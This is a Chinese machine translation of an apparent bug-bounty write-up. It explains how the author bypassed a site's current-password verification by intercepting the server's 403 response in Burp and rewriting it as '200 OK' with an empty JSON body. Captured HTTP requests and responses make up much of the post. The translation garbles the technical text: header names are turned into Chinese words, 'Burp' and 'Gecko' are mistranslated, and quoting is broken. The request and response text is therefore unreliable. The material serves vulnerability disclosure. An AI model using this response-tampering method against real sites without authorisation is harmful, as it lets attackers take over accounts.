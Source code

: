 # 我如何绕过当前的密码验证

> 原文：<https://infosecwriteups.com/how-i-bypassed-current-password-verification-bfa9d8c3f471?source=collection_archive---------1----------------------->

大家好，我是苏菲扬·古丽，今天我将告诉你们我是如何绕过密码验证的

在测试期间，我在密码更改功能中观察到，在我们输入当前(旧)密码之前，该网站不允许输入新密码，因此我在这里开始测试响应操作。

**步骤**

1:输入随机密码并在打嗝时捕获此请求

POST/User-management/auth HTTP/1.1【abc.target.com】主机:T2
用户代理:Mozilla/5.0(Windows NT 10.0；Win64x64rv:79.0)壁虎/20100101 火狐/79.0
接受:*/*
接受-语言:en-US，en；q=0.5
推荐人:https://www.target.com/users/profile/password
授权:无记名<令牌>
内容类型:应用/json
来源:https://www.target.com
内容长度:57
连接:关闭

{ "登录":"[user@gmail.com](mailto:user@gmail.com)，"密码":" randompassword"}

2:捕捉响应

**原始响应**:

HTTP/1.1 403 禁止
日期:2020 年 8 月 3 日星期一 20:51:39 GMT
内容类型:application/JSON；charset = " utf-8 "
Content-Length:96
连接:关闭

..

..

{"type": "HTTPError "，" traceback": null，" message": "HTTP 403:禁止(无效凭据)" }

![](img/6a71e543915f36b1720fcf8bd6068c40.png)

**更改了我在输入正确密码后收到的正确响应:**

HTTP/1.1 200 OK
..
..
{“成功”:真}

并且转发了响应却失败了？？

现在……

我再次复制了相同的步骤，但是现在我发送的是空的 JSON **" {}"** ，而不是 **{"success": true}**

**最终变更响应**

HTTP/1.1 200 OK
日期:2020 年 8 月 3 日星期一 20:51:39 GMT
内容类型:application/JSON；charset = " utf-8 "
Content-Length:96
连接:关闭

..

..
{}

![](img/6604639b238f04f7ed920b5aee66d978.png)

转发响应> >**成功绕过😍**

![](img/56a40f19bb0de75ac3639694bb5e55ae.png)

**永不放弃！！！**

举报和奖励金额

希望这对你有帮助。

联系我:

[Linkedin](http://linkedin.com/in/sufiyan-gouri-7a73a8180):[sufiyan-gouri-7a 73 a 8180](http://linkedin.com/in/sufiyan-gouri-7a73a8180)

[推特](https://twitter.com/gouri_sufyan) : @gouri_sufyan